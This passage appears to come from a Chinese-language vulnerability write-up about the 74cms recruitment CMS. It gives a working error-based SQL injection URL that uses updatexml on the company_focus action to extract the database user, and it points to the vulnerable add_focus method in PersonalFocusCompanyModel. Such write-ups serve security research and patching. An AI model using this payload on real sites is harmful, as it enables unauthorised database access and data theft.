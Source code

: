 ```html
http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a
```

![image](images/img54.png)

看源码

![image](images/img55.png)

打开文件： 74cms\upload\Application\Common\Model\PersonalFocusCompanyModel.class.php

方法：add_focus(


![image](images/img56.png)

## 0x05 74cms独有框架漏洞第二处
